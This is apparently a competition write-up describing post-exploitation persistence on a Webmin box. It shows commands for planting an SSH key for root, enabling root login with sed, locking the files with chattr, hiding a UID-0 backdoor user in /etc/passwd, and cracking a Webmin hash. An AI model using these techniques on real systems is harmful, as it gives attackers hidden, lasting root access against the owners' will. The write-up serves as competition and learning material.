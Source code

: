 ## Persistence - SSH keys
The first thing I did after gaining a shell was drop my SSH public key onto the machine. This would give me access to the machine through SSH, so that I did not have to rely on the reverse shell spawned by the exploit. I did this for the `root` user, and because I wanted this access to actually work through SSH, before I used the connection I had to enable SSH root login through the `/etc/ssh/sshd_config` file, as it had been prohibited earlier. Because I did not have a TTY through the reverse shell, I used the `sed` command to noninteractively edit the file to allow root login with an SSH key.
```
echo ssh-rsa AAAAB3Nz [truncated] qwRo33uAU= root@range-connection > /root/.ssh/authorized_keys
sed -i 's/PermitRootLogin no/PermitRootLogin prohibit-password/g'
systemctl restart sshd
```
To stop people from editing my keys easily, I marked them as immutable with the `chattr` command:
```
chattr +i /root/.ssh/authorized_keys
chattr +i /root/.ssh/
```
This was essentially my main persistence for the whole competition. This SSH key stayed on the box for as long as the box lasted, as I planted it after each box reset. It was never removed by any other competitors. 

## Persistence - `apt` user
After gaining a foothold on the root user, I made a backup user in case I got locked out. I made an user named `apt`, which was meant to mimic a system user. I first created this user, then edited its user information in the `/etc/passwd` file to make it a bit more stealthy. (looking at you, whoever made an user named `pwner123`) I changed the UID and GID to 0, so that my new user would have full root permissions, and changed the GECOS field and the home directory to make it look less suspicious. (however, the 0 UID and `/bin/bash` login shell still pretty much give it away) Finally, I moved the line to the *middle* of the `/etc/passwd` file, so that it would be harder for people to find. After deleting the original home folder in `/home/`, I now had a stealthy root user that I could also add my SSH key to and log in to even if my access to the root account was disrupted.
```
apt:x:0:0:apt:/var/lib/apt:/bin/bash
```

## Persistence - Webmin
As a secondary method of persistence, I wanted a way into Webmin even if the vulnerability was patched. I found the database of webmin users at `/etc/webmin/miniserv.users`, and found a password hash:
```
admin:$1$XXXXXXXX$ez/w79XPdb0sj/bswFgxd1:0
```
Cracking the password with [John the Ripper](https://www.openwall.com/john/), I found that the password for the `admin` user was blank:
```root@DESKTOP-4356485:~# john hash
Loaded 1 password hash (md5crypt [MD5 32/64 X2])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (admin)
1g 0:00:00:00 100% 2/3 10.00g/s 28860p/s 28860c/s 28860C/s 123456..222222
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
This meant that I get a shell on the machine through Webmin, just by entering `admin` and an empty password. Because of this, after the initial access, I stopped using the exploit and just started logging into webmin normally for future box resets.

